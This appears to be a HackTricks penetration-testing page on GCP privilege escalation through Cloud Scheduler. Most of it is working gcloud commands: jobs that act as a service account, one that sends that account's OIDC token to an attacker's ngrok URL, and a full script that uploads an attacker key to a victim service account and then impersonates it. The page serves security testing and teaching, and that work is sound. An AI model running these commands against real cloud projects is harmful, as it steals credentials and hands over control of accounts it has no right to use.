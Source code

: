 # GCP - Cloud Scheduler Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Scheduler

More information in:

{{#ref}}
../gcp-services/gcp-cloud-scheduler-enum.md
{{#endref}}

### `cloudscheduler.jobs.create` , `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

An attacker with these permissions could exploit **Cloud Scheduler** to **authenticate cron jobs as a specific Service Account**. By crafting an HTTP POST request, the attacker schedules actions, like creating a Storage bucket, to execute under the Service Account's identity. This method leverages the **Scheduler's ability to target `*.googleapis.com` endpoints and authenticate requests**, allowing the attacker to manipulate Google API endpoints directly using a simple `gcloud` command.

- **Contact any google API via`googleapis.com` with OAuth token header**

Create a new Storage bucket:

```bash
gcloud scheduler jobs create http test --schedule='* * * * *' --uri='https://storage.googleapis.com/storage/v1/b?project=<PROJECT-ID>' --message-body "{'name':'new-bucket-name'}" --oauth-service-account-email 111111111111-compute@developer.gserviceaccount.com --headers "Content-Type=application/json" --location us-central1
```

To escalate privileges, an **attacker merely crafts an HTTP request targeting the desired API, impersonating the specified Service Account**

- **Exfiltrate OIDC service account token**

```bash
gcloud scheduler jobs create http test --schedule='* * * * *' --uri='https://87fd-2a02-9130-8532-2765-ec9f-cba-959e-d08a.ngrok-free.app' --oidc-service-account-email 111111111111-compute@developer.gserviceaccount.com [--oidc-token-audience '...']

# Listen in the ngrok address to get the OIDC token in clear text.
```

If you need to check the HTTP response you might just t**ake a look at the logs of the execution**.

### `cloudscheduler.jobs.update` , `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

Like in the previous scenario it's possible to **update an already created scheduler** to steal the token or perform actions. For example:

```bash
gcloud scheduler jobs update http test --schedule='* * * * *' --uri='https://87fd-2a02-9130-8532-2765-ec9f-cba-959e-d08a.ngrok-free.app' --oidc-service-account-email 111111111111-compute@developer.gserviceaccount.com [--oidc-token-audience '...']

# Listen in the ngrok address to get the OIDC token in clear text.
```

Another example to upload a private key to a SA and impersonate it:

```bash
# Generate local private key
openssl req -x509 -nodes -newkey rsa:2048 -days 365 \
    -keyout /tmp/private_key.pem \
    -out /tmp/public_key.pem \
    -subj "/CN=unused"

# Remove last new line character of the public key
file_size=$(wc -c < /tmp/public_key.pem)
new_size=$((file_size - 1))
truncate -s $new_size /tmp/public_key.pem

# Update scheduler to upload the key to a SA
## For macOS: REMOVE THE `-w 0` FROM THE BASE64 COMMAND
gcloud scheduler jobs update http scheduler_lab_1 \
  --schedule='* * * * *' \
  --uri="https://iam.googleapis.com/v1/projects/$PROJECT_ID/serviceAccounts/victim@$PROJECT_ID.iam.gserviceaccount.com/keys:upload?alt=json" \
  --message-body="{\"publicKeyData\": \"$(cat /tmp/public_key.pem | base64 -w 0)\"}" \
  --update-headers "Content-Type=application/json" \
  --location us-central1 \
  --oauth-service-account-email privileged@$PROJECT_ID.iam.gserviceaccount.com

# Wait 1 min
sleep 60

# Check the logs to check it worked
gcloud logging read 'resource.type="cloud_scheduler_job" AND resource.labels.job_id="scheduler_lab_1" AND resource.labels.location="us-central1"
jsonPayload.@type="type.googleapis.com/google.cloud.scheduler.logging.AttemptFinished"' --limit 10 --project <project-id> --format=json

## If any  '"status": 200'  it means it worked!
## Note that this scheduler will be executed every minute and after a key has been created, all the other attempts to submit the same key will throw a: "status": 400

# Build the json to contact the SA
## Get privatekey in json format
file_content=$(<"/tmp/private_key.pem")
private_key_json=$(jq -Rn --arg str "$file_content" '$str')

## Get ID of the generated key
gcloud iam service-accounts keys list --iam-account=victim@$PROJECT_ID.iam.gserviceaccount.com

# Create the json in a file
## NOTE that you need to export your project-id in the env var PROJECT_ID
## and that this script is expecting the key ID to be the first one (check the `head`)
export PROJECT_ID=...
cat > /tmp/lab.json <<EOF
{
  "type": "service_account",
  "project_id": "$PROJECT_ID",
  "private_key_id": "$(gcloud iam service-accounts keys list --iam-account=scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com | cut -d " " -f 1 | grep -v KEY_ID | head -n 1)",
  "private_key": $private_key_json,
  "client_email": "scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com",
  "client_id": "$(gcloud iam service-accounts describe scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com | grep oauth2ClientId | cut -d "'" -f 2)",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/scheduler-lab-1-target%40$PROJECT_ID.iam.gserviceaccount.com",
  "universe_domain": "googleapis.com"
}
EOF

# Activate the generated key
gcloud auth activate-service-account --key-file=/tmp/lab.json
```

## References

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../banners/hacktricks-training.md}}




